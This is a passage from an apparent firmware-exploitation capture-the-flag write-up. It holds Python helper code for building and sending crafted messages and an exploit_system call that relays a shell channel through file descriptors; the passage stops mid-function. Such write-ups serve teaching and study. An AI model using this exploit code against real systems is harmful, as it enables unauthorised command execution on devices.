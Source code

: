 > [![Figure showing the memory layout of `msgs[9]` and the subsequent `msg_count` block](images/2c_1_mem_9.png)](images/2c_1_mem_9.png)

We'll define some helper functions to make this easier ([`fwexploit_base.py`](files/stage2c/fwexploit_base.py)):

```python
from exploit2 import *

exploit_system("cat <&4 >&5 & cat <&5 >&4; echo 'EOF!EOF!' >&5")

from typing import Optional
from zlib import crc32
from dataclasses import dataclass

RESPONSE = 0x1336
ADD_MSG = 0x1337
ENCRYPT = 0x1338
DECRYPT = 0x1339

@dataclass
class Message:
    mode: int = 0
    size_mode0: Optional[int] = None
    id: int = 0
    data: bytes = b""
    crc: Optional[int] = None
    size_mode1: Optional[int] = None

    def to_bytes(self):
        if self.crc is None:
            self.crc = crc32(self.data) & 0xffffffff
        if self.size_mode0 is None:
            self.size_mode0 = len(self.data)
        if self.size_mode1 is None:
            self.size_mode1 = len(self.data)
        return struct.pack("<III256sII",
            self.mode, self.size_mode0, self.id, self.data, self.crc, self.size_mode1)

    @classmethod
    def from_bytes(cls, data):
        res = cls(*struct.unpack("<III256sII", data))
        res.data = res.data.rstrip(b"\0")
        return res

def xor(a, b):
    return bytes([ca^cb for ca,cb in zip(a,b)])

def write_pkt(cmd, msg=None, resp=0):
    s.send(p32(resp) + p32(cmd) + (msg.to_bytes() if msg else b"\0" * 0x114))

def read_responses(progress=False):
    resps = []
    while 1:
        if progress:
```